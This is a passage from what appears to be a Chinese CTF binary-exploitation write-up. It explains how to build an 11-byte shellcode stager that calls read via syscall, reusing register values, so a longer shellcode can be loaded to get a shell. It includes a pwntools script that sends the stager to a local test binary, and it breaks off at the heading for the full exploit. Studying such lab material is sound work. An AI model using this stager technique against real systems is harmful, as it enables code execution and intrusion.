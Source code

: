 此时我们要构造出构造函数 read(0,0x20240000,len)

可以看到 rax 的值符合 rsi 所需参数，r10 和 r11 符合我们需要的 rdx 参数

可以构造如下 shellcode

```plain
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')
rea = asm('''
    push rax
    pop rsi
    xor edi,edi
    push r11
    pop rdx
    xor eax,eax 
    syscall
''')
io.sendafter(':\n',rea)
io.interactive()
```

[![](assets/1708940669-ce80c5aa03ba9500048a253e1ed9a37e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223205750-267df04e-d24b-1.png)

长度为 0xb 字节我们即可构造一个 read 从而读入足够长度的 shellcode 来 getshell

完整 exp：
